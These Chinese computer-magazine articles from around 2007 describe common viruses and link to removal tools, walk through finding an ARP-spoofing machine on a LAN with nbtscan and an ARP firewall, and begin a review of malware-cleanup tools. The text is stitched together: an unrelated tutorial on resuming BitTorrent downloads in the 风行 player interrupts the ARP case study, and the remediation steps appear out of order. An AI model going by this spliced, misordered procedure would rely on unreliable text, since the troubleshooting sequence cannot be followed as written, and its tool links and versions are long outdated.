此类病毒主要针对MSN用户，它们利用MSN聊天工具疯狂传播，短时间内即可让大量用户中招。如果蠕虫检测到受感染的计算机系统中有正在运行的MSN进程，那么它会通过MSN聊天窗口向聊天好友不断发送诱惑性信息和含有病毒体的一系列压缩文件（后缀名都为.zip）。一旦计算机用户被诱骗点击下载了这些压缩文件，系统就会受到感染。前者会发送类似photos.zip的压缩包，后者会释放一个Rbot后门程序，从而控制感染机器，并且会将感染机器的音量调到零，使用户无法听到声音。此外，还有许多利用MSN进行网络钓鱼的骗局。例如，今年有不少用户在使用MSN的过程中，收到过类似“在不被发现的情况下查出谁把你从MSN中删除http://www.messenger-blo****.tk”等信息，但在该网站填入账号后，却发现没有反应。其实，这是一场MSN网络钓鱼骗局，用户的MSN账号和密码会被网站窃取并利用。

专杀工具下载地址分别为：http://zhuansha.duba.net/258.shtml和http://zhuansha.duba.net/221.shtml。

### B. “QQ尾巴”

该病毒主要利用QQ传播木马病毒，感染后会偷偷藏在用户的系统中，发作时会寻找QQ窗口，给在线上的QQ好友发送诸如“快去这看看，里面有蛮好的东西”之类的假消息，诱惑用户点击一个网站，如果有人信以为真点击该链接的话，就会被病毒感染，然后成为毒源，继续传播。

专杀工具下载地址为：http://zhuansha.duba.net/34.shtml。

### C. “五毒虫”

该病毒综合多种恶意病毒于一身，可以对电脑用户造成严重危害。中毒后的计算机可能会出现如下现象：向外疯狂发送垃圾邮件、60秒倒计时重启、向QQ好友发送垃圾信息、打不开杀毒软件、向网络内其他机器攻击、上网速度缓慢等。

专杀工具下载地址为：http://zhuansha.duba.net/157.shtml。

### D. ARP病毒

此外，值得注意的是，本年度比较热门的多个病毒均具有ARP攻击行为，通称为ARP病毒。该病毒一般属于木马病毒，不具备主动传播的特性，不会自我复制，但是由于其发作的时候会向全网发送伪造的ARP数据包，严重干扰全网的正常运行，其危害甚至比一些蠕虫病毒还要严重。ARP病毒发作时，常见特征如下：局域网内部分计算机不能正常上网，无法打开Web网页或打开Web网页速度较慢；它还会向局域网内发送伪造的ARP欺骗广播，并将受感染的计算机系统伪装成局域网网关；当局域网中的计算机系统发出访问Web网页时，伪装成网关的计算机系统会将Web网页下载，并在其中添加一段恶意地址代码一并发送给发出请求的计算机，造成该计算机系统访问Web网站时会主动连接该恶意网址。如果操作系统存在漏洞，就会在访问的计算机系统中植入木马程序，使得计算机系统遭到进一步的破坏，最终导致整个局域网成为“僵尸网络”。

##### 2. 流行病毒专杀工具荟萃

通过病毒专杀工具，可以很方便地完成针对某种病毒的查杀。因此，我们列举了当前比较流行的病毒或者依然存在威胁的一些病毒，对其特征进行简要的描述，如下表所示。

| 病毒名称 | 病毒特征 | 专杀工具下载地址 |
| :--- | :--- | :--- |
| 灰鸽子 | “灰鸽子”可以轻松盗取用户账号，远程监控拍摄用户隐私，远程控制中毒机器，甚至可以盗取商业机密，破坏电脑。查杀“灰鸽子”时，建议在安全模式下进行，效果将更佳。利用专杀工具发现系统中的“灰鸽子”病毒，并进行清除操作后，建议重新启动计算机确保清除病毒文件。 | 金山：http://zhuansha.duba.net/255.shtml<br>瑞星：http://download.rising.com.cn/zsgj/GPDetect.exe |
| 马吉斯 | 该病毒是由C语言编写的感染型病毒，它可以感染后缀名为exe的可执行程序。病毒源文件为boot.exe，由用户从U盘上提取。病毒感染文件时，会修改原文件，将病毒代码写入被感染文件的代码节。被感染的文件运行时，病毒代码将会首先被运行。 | 瑞星：http://download.rising.com.cn/zsgj/MagistrKiller.exe |
| 网络天空 | 以本年度热门的“网络天空”变种(Worm_Netsky.D)为例。该病毒通过邮件传播，使用UPX压缩。运行后，在Windows目录下生成自身的拷贝，名称为Winlogon.exe。病毒使用Word的图标，并在共享文件夹中生成自身拷贝。同时，该病毒可以创建注册表项，能够在系统启动时自动运行。 | 金山：http://zhuansha.duba.net/107.shtml<br>瑞星：http://download.rising.com.cn/zsgj/ravnetsky.exe |
| 高波（安哥，Worm_AgoBot） | 该病毒是常驻内存的蠕虫病毒，利用RPC DCOM 缓冲区溢出漏洞、IIS5/WEBDAV 缓冲区溢出漏洞和RPC Locator 漏洞进行传播，还可通过弱密码攻击远程系统进行主动传播以及利用mIRC软件进行远程控制和传播。病毒运行后，在%System%文件夹下生成自身的拷贝nvchip4.exe。添加注册表项，使得自身能够在系统启动时自动运行。 | 金山：http://zhuansha.duba.net/100.shtml |
| 艾妮 | 该病毒通过微软Windows系统ANI（动态光标）文件处理的漏洞、感染正常的可执行文件和本地网页文件、发送电子邮件和感染U盘及移动存储介质等途径进行传播，病毒自我传播能力很强。计算机感染该病毒后，会自动下载运行木马程序，给用户造成较大危害。该蠕虫出现了很多变种，能够在短时期内迅速传播，而且难于彻底清除。 | 江民：http://download.jiangmin.info/jmsoft/ANIWormKiller.exe<br>金山：http://zhuansha.duba.net/256.shtml |
| 求职信 | 以本年度出现的“求职信”变种（Worm_Klez.E）为例，该病毒发作后会感染计算机系统中的Word文档和Excel文档，而且难于恢复。另外，它还会使受感染计算机系统自动向外发送带毒邮件，同时终止系统中防病毒软件的正常运行。 | 金山：http://zhuansha.duba.net/9.shtml |
| SDBot和RBot | 该病毒通过网络共享和操作系统漏洞进行传播。首先，病毒会尝试通过弱密码登录目标系统。病毒运行后可以自动加载到注册表启动项，以便下次开机后能够继续运行。其次，病毒还会在感染的电脑上打开后门接收攻击者发出的指令，然后连接特定的IRC服务器通知攻击者病毒的存在。症状为：病毒会扫描网段内的机器并猜测共享密码，占用大量网络带宽资源，造成局域网阻塞。 | 金山：http://db.kingsoft.com/download/3/247.shtml |
| 恶鹰（Worm.Beagle） | 由于附件的图标和Windows自带计算器图标相似，容易使用户上当。当用户运行病毒后，病毒先运行自身，然后再运行Windows自带计算器，因此具有一定的欺骗性。病毒自带SMTP引擎，因而可以随意以匿名方式发送邮件。该病毒会在用户机器上建立一个后门，监听6777端口，使攻击者可以在用户机上执行它传来的任意程序。 | 金山：http://zhuansha.duba.net/104.shtml |

##### 3. 病毒防范综合策略

针对本年度的典型病毒特征，下面提出了一些具有针对性的综合防范策略。

### 策略1：加强系统日常防范，随时更新系统补丁。

一般情况下，可以利用Windows Update或360安全卫士、瑞星漏洞修复工具、金山漏洞修复工具等对系统进行检查，建议每周进行一次检测。在五一、十一、元旦等病毒高发期，需要重点检查遗漏的漏洞补丁，防止病毒感染和传播。

### 策略2：选择一款方便而可靠的防毒软件，定期升级病毒库，定期扫描系统。

“工欲善其事，必先利其器”，一个方便而又可靠的防毒软件将是我们做好后面工作的第一步。而且，厂商会根据最近流行病毒的情况，随时更新病毒代码到病毒库中，只要网络畅通，升级应该是很方便的。如果用户不及时升级，就很难对新病毒进行查杀，这时就不能怪杀毒软件找不到病毒了。同时，初次使用防毒软件时，建议对系统进行全面扫描。

### 策略3：打开实时监控病毒防火墙。

很多用户购买杀毒软件后，会因为占用系统资源等原因而不打开实时监控防火墙。在这种情况下，建议用户打开实时监控病毒防火墙。如果不打开实时监视功能，很容易“因小失大”而让病毒趁机钻空子。

### 策略4：养成良好的使用U盘、移动硬盘等移动储存设备的习惯。

由于本年度通过移动存储设备传播病毒的情况比较多，因此，建议使用此类设备时需要小心谨慎。例如当外来U盘接入计算机系统时，切勿双击打开，一定要先经过杀毒处理，或是采用具有U盘病毒免疫功能的杀毒软件查杀后，再接入计算机系统。另外，建议关闭Windows系统的自动播放功能。在运行中键入gpedit.msc，打开组策略窗口。展开左侧树形节点，打开“本地计算机策略” → “计算机配置” → “管理模版” → “系统”，在右侧找到“关闭自动播放”选项，双击进到属性页，选择“已启用”，然后在列表处选择“所有驱动器”，点击“应用”即可完成设置。如图1所示。



### 策略5：安全使用通信软件。

计算机用户在使用MSN或QQ等即时通信软件时，注意对方发来的及时消息和压缩文件，掌握病毒的传播途径和特点。在日常应用中，尤其要注意谨慎点击下载这些压缩文件。

### 策略6：选择来自正规渠道的软件。

建议到正规的门户网站下载应用程序、软件以及电影、音乐等，尽量避免软件安装包被捆绑进木马病毒。下载后，建议首先对其进行病毒扫描，确认无毒后再安装运行。

### 策略7：练一双识别病毒的火眼金睛。

如果机器运行变慢，经常死机或弹出“非法操作”提示，就需要考虑是否中毒了。在这种情况下，可以考虑使用杀毒软件进行全面扫描，通过进程查看器观察是否有异常的进程。由于病毒多通过网站挂马进行传播，建议用户不要随便点击不明链接，不要登录不明网站。对于局域网的计算机用户尽量避免创建可写的共享目录，已经创建共享目录的应立即停止共享。如无必要，应尽量关闭IPC$共享，并给具有管理员权限的账号设置复杂的密码。

### 策略8：分清层次，逐级杀毒。

如果网络规模比较大，建议根据网络的实际情况，分客户端、服务器端逐级杀毒，逐级规划。对邮件服务器、文件服务器集中管理，重点监控。计算机病毒与反病毒技术的发展，使企业不能再依靠单一的防毒体系来保全资源，而要从整体上保证整个网络的安全运行。通过上述层层设防以及针对性的讲解，我们对本年度的典型病毒有了一个比较全面的认识。下面，通过一个典型的案例来了解清除病毒的详细过程。

#### 三、典型案例：寻找局域网中ARP病毒

为了更好地启发用户清除病毒的思路，下面以今年比较典型的ARP病毒为例进行讲解。最近，小D遇到了一件怪事。事情是这样的：小D和其他人合租了一条ADSL线，前段时间一直很畅通，不过，在最近上网的过程中，掉线现象十分频繁，几乎每隔几分钟就出现。开始他怀疑交换机出现了问题，于是，在网络连接图标上点击右键，在弹出的菜单中选择“修复”选项，修复本地连接后，网络马上又畅通了。不过，让人郁闷的是，不到一分钟网络又中断了，无奈之下只好再次修复，反复如此，上网冲浪的兴致荡然无存。到底是什么原因呢？难道本地电脑或其他网络邻居中毒了？还是有人利用网络工具进行强制断线？一切都只是猜想，但对假设的证实却可以逐渐解决这个谜团。当小D向我描述这个现象时，我根据经验初步判断，在局域网中存在ARP欺骗包干扰正常上网。而这种情况可能是局域网中有电脑感染了病毒，也可能是某些人为了加快自己的上网速度，强行让别人断线或限速。到底问题出现在哪里，看来要一番追根溯源才能得到结论了。

##### 1. 了解来龙去脉：解读ARP病毒

了解故障原理之前，可以通过相关资料分析一下ARP协议。ARP协议是“Address Resolution Protocol”（地址解析协议）的缩写。在命令行模式下，输入“arp -a”命令，结果如图2所示。



在提示符下，第一列显示的是IP地址，第二列显示的是和IP地址对应的网络接口卡的硬件地址（MAC），第三列表示IP和MAC地址的对应关系类型。因此，ARP是一种将IP转化成与IP相对应的网卡的物理地址的一种协议，或者说ARP协议是一种将IP地址转化成MAC地址的一种协议。在以太网中，一个主机要和另一个主机进行直接通信，必须要知道目标主机的MAC地址。而这个目标MAC地址就是通过地址解析协议获得的，它通过在内存中保存的一张表，使IP得以在网络上被目标机器应答。所谓“地址解析”，就是主机在发送帧前将目标IP地址转换成目标MAC地址的过程。ARP协议的基本功能就是通过目标设备的IP地址，查询目标设备的MAC地址，以保证通信的顺利进行。在这种对应关系中，ARP缓存表类似一张本地的城市地图，当需要查找某一单位地址时，只需要通过这张对应表查询详细的门牌号码即可。ARP缓存表采用了老化机制，在一段时间内如果表中的某一行没有使用，就会被删除，这样可以大大减少ARP缓存表的长度，加快查询速度。ARP缓存表是可以查看的，也可以添加和修改。在命令提示符下，输入“arp -a”就可以查看ARP缓存表中的内容了。用“arp -d”命令可以删除ARP表中某一行的内容；用“arp -s”可以手动在ARP表中指定IP地址与MAC地址的对应。通过上面的分析可以看到，ARP协议的基础就是信任局域网内所有的人，而要实现在以太网上的ARP欺骗也就很容易了。

通过这么一番讨论，我们明白了网络掉线问题的大致原理。为了查找局域网中的问题根源，需准备两个工具：NBTSCAN v1.5.1和ARP防火墙单机个人版V4.2。其中，NBTScan是一款用于扫描Windows网络上NetBIOS名字信息的程序，该程序对给出范围内的每一个地址发送NetBIOS状态查询，并且以易读的表格列出接收到的信息，对于每个响应的主机，NBTScan可以列出它的IP地址、NetBIOS计算机名、登录用户名和MAC地址。而ARP防火墙就是专门用来防范ARP攻击的利器了。

##### 2. 雾里“探”花：查找病毒的真正来源

- 首先，使用NBTSCAN工具进行整个网段的搜索。方法如下：
第1步：将压缩包中的nbtscan.exe和cygwin1.dll解压缩放到c:\nbtscan下。打开命令提示符窗口，根据实际网段输入如下命令：nbtscan -r 192.168.1.0/24，这表示扫描当前的整个C类网络，回车后结果如图3所示。

```
C:\nbtscan>nbtscan -r 192.168.1.0/24
Doing NBT name scan for addresses from 192.168.1.0/24
IP address       NetBIOS Name     Server    User             MAC address
----------------------------------------------------------------------
192.168.1.0      Sendto failed: Cannot assign requested address
192.168.1.5      公安系统         <server>  <unknown>        00-40-05-43-ec-2d
192.168.1.87     CCHUTEST         <server>  <unknown>        00-0d-68-75-dd-f9
192.168.1.89     MICROSOFT        <server>  <unknown>        00-03-47-ee-88-ee
192.168.1.222    封你妈           <server>  <unknown>        00-f0-f3-00-02-5f
```


其中，有个受害者192.168.1.222用户甚至给自己的机器取了个粗口骂人的名字，估计他以为是别人封了他的IP地址，而又无可奈何，只好出此下策了。可以想象，这台机器上网速度肯定奇慢，或者根本不能上网。不过，在没有找到真正的凶手之前，下此定论将责任推在别人身上，为时尚早！

- 第2步：在本地客户机上进入命令提示符模式。目前，网络掉线故障十分明显，几乎打开一个网页之后就不能登录了。看来，“地图”的指向有严重的误导错误，现在需要做的，就是用arp -a命令查看“地图”到底出现了什么问题。如图4所示。



通过分析上面的地址，可以看到有两个机器的MAC地址相同，即：
192.168.1.1    00-f0-f3-00-02-5f dynamic
192.168.1.222  00-f0-f3-00-02-5f dynamic
一般来讲，MAC地址就是网卡的物理地址，其长度为48位（6个字节），通常表示为12个16进制数，每2个16进制数之间用冒号隔开。前24位是由生产厂家向IEEE申请，后24位由生产厂家拟订。每个网络制造商必须确保它所制造的每个以太网设备都具有相同的前三个字节以及不同的后三个字节。这样就可保证世界上每个以太网设备都具有唯一的MAC地址。问题是，在这么小的局域网中，怎么会碰巧出现两个相同的地址呢？难道是厂家生产的网卡地址有问题？这种几率实在太小了。

那么，在这场欺骗攻击战中，到底谁的MAC地址才是“00-f0-f3-00-02-5f”呢？谁才是真正的攻击者呢？通过对局域网的分析，192.168.1.1是默认的网关，相对于客户机，它感染病毒的可能性比较小，但是遭受攻击的可能性比较大；反之，作为网络中的客户机，192.168.1.222感染病毒的可能性比较大，甚至被人当作肉鸡的可能性更大。为了寻找真正的答案，我们下载了“ARP防火墙单机个人版 V4.2beta4”软件。

- 第3步：分析ARP攻击数据，判断攻击源。安装并运行“ARP防火墙单机个人版 V4.2beta4”后，软件很快给出了答案。在软件的“外部ARP攻击”选项卡上显示，攻击者MAC地址可能为：00-F0-F3-00-02-5F，攻击者IP可能为192.168.1.222。在攻击过程中，它伪装成IP地址192.168.1.1。试想，用户使用错误的地图，怎么可能找到真正的单位地址呢？如图5所示。



通过分析接收到的ARP数据包能有效地判断当前局域网是否存在ARP问题。点击“外部ARP攻击”选项卡，发现“非广播-Reply”的数量达到了464，而且还在不断增加，表明这台计算机很有可能存在问题。

> 关于“非广播-Reply”的基础知识。这里包括了广播、非广播、Request、Reply等概念。其中，广播表示局域网内所有机器都可以接收到；非广播表示只有本机可以接收到；Request表示ARP请求包，用于请求获取某个IP的MAC地址；Reply是ARP回复包，用于通告某个IP的MAC地址。

- 第4步：对统计数据的分析。在网络上查找资料后发现，ARP病毒发作时候的特征为，中毒的机器会伪造某台电脑的MAC地址，如该伪造地址为网关服务器的地址，那么对整个网络均会造成影响，用户表现为上网经常瞬断。在ARP防火墙V4.2 Beta2中，在“软件设置→其他”中勾选“分析接收到的ARP数据包”，接“确定”按钮之后软件将自动分析接收到的ARP数据包。为了了解攻击参数的详细情况，打开“统计数据”界面，可以看到如图6所示的数据。



其中，在“攻击统计”区域，接收ARP攻击的总数达到了10280个，而且全部被拦截。因此，通过上面的判断，进一步证实问题机器的IP地址为192.168.1.222。

### 巧用“风行” 轻松实现异地下载

◆文/啄木鸟

有时我们在单位下载一部好看的电影，不巧的是，到了下班的时间，影片才刚下了一半，难道等到明天再下？...但是今天晚上还想看呢，怎么办？这时，如果你使用“风行媒体播放器”（以下简称“风行”）下载，就不用担心啦，因为我们可以回家接着下，这样就会在第一时间欣赏到自己下载的电影啦！

#### 1. 保存种子文件

要想使下载到一半的文件回家能够继续下载，必须要保存好没有下载完的种子文件。保存种子文件的方法很简单：先在风行中暂停当前下载任务，然后右击任务名称并选择“种子文件另存为”命令，将扩展名为“.torrent”的种子保存到移动硬盘中，例如，保存到“I:\大片”，这样第一步准备工作就完成了。

```
I:\大片
```

“风行媒体播放器”是一款集下载、在线播放于一体的网络播放器，使用该播放器既可以实现BT高速下载，又能够实现视频预览，只需几分钟的缓冲就可以在线播放网络视频，同时可以播放不完整的视频格式文件。软件采用了P2P协议，在线观看人数越多，播放速度就会越流畅。

#### 2. 保存已经下载的部分数据

在“风行”安装目录的Media文件夹下，将以所下载文件命名的文件夹中的全部内容一起保存到移动硬盘中，如“I:\大片”。好了，万事俱备，只欠东风。下面的操作等回家继续进行。

```
I:\大片
```

回到家中后，将保存在移动硬盘中的种子文件和下载数据复制到家中的电脑硬盘中，如“D:\大片”。接着运行“风行”，依次点击“文件”→“打开”命令，找到在办公室保存的种子文件，并在“新建任务”对话框中将保存位置设置为刚才的影视文件夹。任务被成功导入后，右击并选择“开始”命令，这样“风行”就会接着先前的下载进度，继续下载文件了。这样一来不但提高了工作效率，而且轻松解决了本文开头所提到的问题。

```
D:\大片
```

#### 3. 轻松实现异地下载

> 提示：使用风行下载的过程中，当进行删除任务操作时，会弹出“确认删除所选任务”对话框，默认情况下风行会保留该任务已下载的文件，这就是为什么风行可以“断点续传”的原因。

下面我们就来介绍利用“风行”实现“接力下载”的具体操作方法。

##### 3. 举一反三：解读清理ARP病毒的思路

通过上面的案例分析，可以看到，典型的解决思路如下：

### 第1步：寻找攻击源

在发生ARP攻击时，及时找到攻击源头，判断是人为攻击还是机器病毒。如果是后者，通过对病毒源头的机器进行处理，杀毒或重新装系统。此操作比较重要，解决了ARP攻击的源头PC机的问题，可以保证内网免受攻击。

### 第2步：静态ARP绑定

在所有的客户端机器上做网关服务器的ARP静态绑定。首先在网关服务器（代理主机）的电脑上查看本机MAC地址，然后在客户机器的DOS命令下，使用arp -s命令做ARP的静态绑定。同时，还可以使用同样的方法，在网关服务器（代理主机）的电脑上做客户机器的ARP静态绑定。

```
arp -s命令
```

### 第5步：重新对比核查数据

病毒发作的时候，可以看到所有的IP地址的MAC地址被修改为同样参数，正常的时候可以看到MAC地址均不会相同。安装ARP防火墙后，可以发现，192.168.1.1和192.168.1.222两台机器的MAC地址各不相同，现在打开网络访问其他网站，会发现网络也变得畅通无比。

### 第3步：加强系统安全的防范

首先，经常更新杀毒软件（病毒库），可设置为每天定时自动更新。安装并使用网络防火墙软件，网络防火墙在防病毒过程中也可以起到至关重要的作用，能有效地阻挡来自网络的攻击和病毒的入侵。其次，给系统安装补丁程序，通过Windows Update安装好系统补丁程序(关键更新、安全更新和Service Pack)。另外，给系统管理员账户设置足够复杂的强密码，禁用/删除一些不使用的账户，以提高系统的安全性。

### 第4步：对于大型网络来说，建议将网络安全信任关系建立在IP+MAC基础上

同时，还使用可防御ARP攻击的三层交换机，绑定端口-MAC-IP，限制ARP流量，及时发现并自动阻断ARP攻击端口，合理划分VLAN，彻底阻止盗用IP、MAC地址，杜绝ARP的攻击。对于经常爆发病毒的网络，进行Internet访问控制，限制用户对网络的访问。

当然，在判断问题的过程中，也不能仅仅局限于这一思路，还要考虑更多可能导致病毒传播的因素，从源头上预防病毒的进一步传播。总的来说，2007年病毒发展趋势不容乐观，在经济利益的驱使下，病毒传播渠道更广泛，尤其是利用U盘传播病毒的现象日益增多。在实际防范中，最根本的是加强系统安全防范，安装最新的安全补丁，充分利用各种杀毒软件，堵住操作系统的漏洞或应用软件的后门。同时，要增强安全意识，对来路不明的软件或网络链接要提高警惕。这样，通过“多管齐下”，才能真正做到“有的放矢，疏而不漏”。

### 2007年恶意软件清理工具完全测试

◆文/彭文波

2007年以来，有关恶意软件的争议依然沸沸扬扬，从奇虎与CNNIC之间的“口水战”升级，到“熊猫烧香”作者李俊的锒铛入狱，无不显示着如今的互联网世界仍然难以太平。目前，网络上有关恶意软件的概念层出不穷，如“流氓软件”、“间谍软件”、“恶意软件”、“恶意代码”等。由于没有一个统一的标准，使得许多“灰色地带”的软件大肆横行，用户也深受其害。同时，在经济利益的驱动下，恶意软件的危害性与日俱增，它未经许可便悄然安装在用户电脑上，而且传播方式更加诡秘，功能更新上也能够“魔高一丈”并“与时俱进”。于是有人感叹：如果哪个中国网民没有中过流氓软件的招，那他一定是国宝级的人物！在此背景下，有关恶意软件的标准定义也在2007年开始浮出水面。鉴于此，本专题首先对恶意程序的来龙去脉进行细致分析，在技术理解的基础上，选择多款热门的清理工具进行讲解与测试。

#### 一、2007年恶意软件的发展状况

##### 1. 恶意软件的典型特征

- 强制安装。指未明确提示用户或未经用户许可，在用户计算机或其他终端上安装软件的行为。
- 难以卸载。指未提供通用的卸载方式，或在不受其他软件影响、人为破坏的情况下，卸载后仍然有活动程序的行为。
- 浏览器劫持。指未经用户许可，修改用户浏览器或其他相关设置，迫使用户访问特定网站或导致用户无法正常上网的行为。
- 广告弹出。指未明确提示用户或未经用户许可，利用安装在用户计算机或其他终端上的软件弹出广告的行为。
- 恶意收集用户信息。指未明确提示用户或未经用户许可，恶意收集用户信息的行为。
- 恶意卸载。指未明确提示用户、未经用户许可，或误导、欺骗用户卸载其他软件的行为。
- 恶意捆绑。指在软件中捆绑已被认定为恶意软件的行为。
- 其他侵犯用户知情权、选择权的恶意行为。

##### 2. 恶意软件的主要传播途径

- (1) 软件捆绑
软件捆绑方式十分常见，它通常和某实用软件放在一起，当用户在安装这款实用软件时，间谍软件便悄悄进行自动安装。通过不显眼的文件名，使它们在一个程序里的组成文件中隐藏自己。该类程序不管是被安装还是运行时都不会在计算机上显现任何明显的反应，结果间谍程序长期潜伏在计算机系统中而用户根本就不了解。如用户安装了某下载软件后，总会弹出一些莫名其妙的广告窗口，严重干扰了用户正常使用电脑。还有一些软件安装后会在IE浏览器的工具栏位置添加与该软件功能不相干的网页链接图标，一般用户很难清除。
- (2) 通过网页浏览的形式
不少用户安装软件后，很快发现自己的浏览器变得花花绿绿了，其状惨不忍睹。这是一种通过DLL插件、BHO、Winsock LSP等形式对用户的浏览器进行篡改的恶意程序。常见的症状有：访问正常网站时被转向到恶意网页、当输入错误的网址时被转到劫持软件制定的网站、输入字符时浏览器速度严重减慢、IE浏览器主页/搜索页等被修改为劫持软件指定的网站地址、自动添加网站到“受信任站点”中、收藏夹里自动反复添加恶意网站链接等。
- (3) 邮件接收
由于使用电子邮件方便、快捷，使它也成为了恶意软件抢夺的宝地。很多垃圾邮件包含了恶意软件的HTML链接，受骗者往往会泄露自己的财务数据，如信用卡号、账户和口令、社保编号等内容。诈骗者通常会将自己伪装成知名银行、网络游戏运营商、在线零售商和信用卡公司等可信的品牌，进行欺诈交易。
- (4) ActiveX控件
主要是指使无论任何语言产生的软件在网络环境中能够实现互操作性的一组技术，它建立在Microsoft的组件对象模型基础上。该组件可嵌入在Web页面中以产生动画和其他多媒体效果、生成交互式对象和复杂的应用程序，也可用于为桌面应用程序和软件开发工具增加特殊的功能。
除了上述方式，还有行为记录软件、恶意共享软件等。例如一些软件会在后台记录用户访问过的网站并加以分析，根据用户访问过的网站判断用户的爱好，然后根据用户的爱好弹出不同的广告程序。总之，在恶意程序的背后，是巨大的利益驱动，这也使得许多恶意软件在形式上历久常新，在功能上花样不断，而作为受害者的用户却苦不堪言，深受其害。

##### 3. 寻找克星：恶意软件清理工具的选择标准

选择一款优秀的恶意软件清理工具，可以从以下几个方面着手：

- (1) 对恶意软件的识别能力
对于清理工具而言，彻底清除恶意软件的前提就是准确定义对方，尽可能了解更多的恶意软件安装情况。就像一场激烈的敌我战争一样，要取得战争的胜利就必须彻底了解敌情，把握对方的详细情况。一旦被强植了恶意软件，用户一般就非常想知道这些恶意软件是干什么的、究竟是从哪来的、它们又被安装到了哪些文件夹中。所以，一款好的恶意软件清理工具，在进行恶意软件清理和防控的同时，还应该给提供尽量详细的恶意软件信息，让用户对这些臭名昭著的恶意软件“知其然，更知其所以然”！
- (2) 清除恶意软件的功能
通过扫描将恶意软件准确识别出来还只是刚刚开始，用户在下一步比较关注的是如何清除恶意软件。有些恶意软件经常会自我变形，更改路径、更改文件，这对清理工具的及时更新能力也提出了挑战。比如，使用某些清理工具进行扫描清理后，重新启动电脑时，使用其他清理工具扫描时，这些恶意软件仍然被扫描到，这说明恶意软件未被成功清除，清理能力还不能满足用户要求。
- (3) 资源占用情况
一般情况下，用户更希望使用此款软件来增强性能，而不是加重系统负担。所以，使用清理工具的时候，应尽量避免占用更多的用户资源，在内存占用方面应尽量小。
- (4) 软件升级功能和附加工具
对专业性较强的恶意软件清理工具而言，软件附带的实用工具能够给用户带来许多方便。比如，在漏洞修补方面，快速而方便的漏洞修补功能将更有助于提供系统的安全性；在网站升级方面，通过专业化的网站可以给用户提供最新的软件版本。如果能够提供尽可能优秀、尽可能安全的功能，当然能够赢得用户的青睐了。

为了方便本次测试，在测试环境的搭建过程中，安装了如下工具：雅虎助手&上网助手、Cnnic无忧上网工具条、Alexa工具条、搜狗工具条等。同时，选择了捆绑插件较多的PC清理王、Rm电影文件修复专家2007等软件。安装的这些恶意软件涵盖了典型的恶意软件分类，包括广告软件、间谍软件、浏览器劫持、行为记录软件、恶意共享软件、恶意ActiveX控件，多数用户主要受上述恶意软件的侵扰，所以这样的测试环境比较典型。安装完毕，待测试的电脑可谓“惨不忍睹”了，IE浏览器面板上被强制安装了密密麻麻的工具条，首页也被篡改并且不断出现错误提示，电脑速度也变得奇慢无比。当然，电脑中还有更多隐形的恶意软件。如图1所示。

“魔高一尺，道高一丈”。下面，从国内和国外范围进行选择，对多款典型恶意程序清理工具进行详细的讲解。

## 二、 国内篇：主流恶意软件清理工具及使用

根据国内软件下载的数据排名和网友反馈，下面列举了几种比较典型的“流氓软件”清理工具。

| 软件名称 | 版本 | 下载地址 |
| --- | --- | --- |
| 360安全卫士 | V3.63正式版 | http://360.qihoo.com/ |
| 金山毒霸系统清理专家 | V2.0 | http://www.duba.net/ps/kav/kav_dl.shtml |
| 瑞星卡卡上网安全助手 | V4.0.0.19 | http://tool.ikaka.com/ |
| 恶意软件清理助手 | V2.7.1 | http://www.tommsoft.com/ |
| Windows清理助手 | V2.3.4.7.0907 | http://www.arswp.com/download.html |

##### 1. 360安全卫士

推荐指数：★★★★★

2007年，“360安全卫士”导演了许多和安全相关的焦点话题，除了软件版本的不断更新，以“360安全卫士”为核心的“360软件百科”还推出了恶意软件排行榜，许多臭名昭著的恶意软件大都榜上有名。在“360软件百科”系统中，每一款软件以其名称构成一个主题，用户可以通过投票、评论来了解每个软件的安全性、优劣和使用方法，分享使用技巧和经验。

软件安装完毕，可以看到360安全卫士采用了浅色和墨绿搭配的风格。上方是一排标准的大图标按钮。下方则以选项卡的形式列出了每个大分类的情况，在“常用”一栏中，包含了“基本状态”、“查杀流行木马”、“清理恶评及系统插件”、“管理应用软件”、“修复系统漏洞”、“系统全面诊断”、“清理使用痕迹”等。整体风格简明直观，操作方便。如图2所示。

###### （1）对恶意软件的识别能力

首先，单击“基本状态”下的“立即扫描”按钮，软件马上会对系统恶意插件进行扫描。扫描结果分别归入恶评插件、其他插件和信任插件等类别。根据软件提示，系统中存在11款恶评插件、8款其他插件。选择相应的类别，还可以看到在恶意软件后面会列出：插件类型、出品公司、文件路径等。然后，选中相应的插件，可以对其进行相关操作，如单击“信任选中插件”按钮，可将其放置到信任插件类别中。此外，为了方便用户解决问题，软件还提供了诊断报告功能，这对初、中级用户非常实用，用户不用再被辨别各种进程、注册表项信息搞得头昏眼花了。如图3所示。

###### （2）清除恶意软件的功能

点击“立即清理”按钮，再次进行全面扫描，恶意软件已经基本清除。360安全卫士提供了方便的全面诊断功能，它能够列出用户机器中正在运行的进程、全部的系统启动项、BHO插件、下载的ActiveX插件、加载的非系统服务、协议关联、域名解析文件、IE被增加的右键菜单等20多个系统的位置，用户从这里可以了解到当前系统的主要安全隐患。在“系统服务”界面，还可以看到系统中的各个服务项。这个界面有点类似于Windows系统的“服务”功能，但是包含的内容更具有指导性。从服务项列表中，可以看到360安全卫士对每个服务定义的安全级别、推荐操作、修复方式等。由于系统服务融入了360安全卫士的操作经验，因此这些参考意见更具专业性。如图4。

###### （3）资源占用情况

很多杀毒软件用户都有这样的体会，安装一些大型杀毒软件后，系统速度大幅下降，资源占用十分厉害。尽管还不是一种完整意义上的杀毒软件，360安全卫士在这方面表现中规中矩。扫描和清除恶意软件的速度都比较快，通过查看内存资源情况，可以看到其内存占用为27.96MB，这对整个系统速度影响一般。

###### （4）软件升级功能和附加工具

在升级功能方面，360安全卫士提供了专门的服务站点，反馈迅速而且能够提供详细而及时的解答。在软件升级的设置上，提供了自动升级、检测到新版本后提示是否升级等方式。随着版本的不断升级，360安全卫士还提供了强大的实时防护功能，包括对恶意软件的安装警示、对恶意网站的拦截、保护系统关键位置、系统实时扫描等。为了进一步加大反病毒的力度，360安全卫士还可以使用卡巴斯基6.0的病毒查杀功能。

在安全辅助功能上，360安全卫士的漏洞扫描功能十分方便。它可以对Windows 2000及Windows XP等系统进行漏洞扫描，检测出机器中存在哪些漏洞，缺少哪些补丁以及漏洞的严重级别等，并提供相应补丁的下载和安装。使用漏洞扫描功能时，切换到“修复系统漏洞”，查看系统漏洞补丁模块，点击“查看修复漏洞”按钮，即可在短时间内扫描出系统中的所有漏洞。值得一提的是，软件可以根据微软发布漏洞补丁的时间排序，并且标明各种漏洞的严重程度。使用时，可以选择需要进行安装的补丁，点“下载及修复”，系统就可以下载选择的补丁，下载完毕即可自动开始安装。

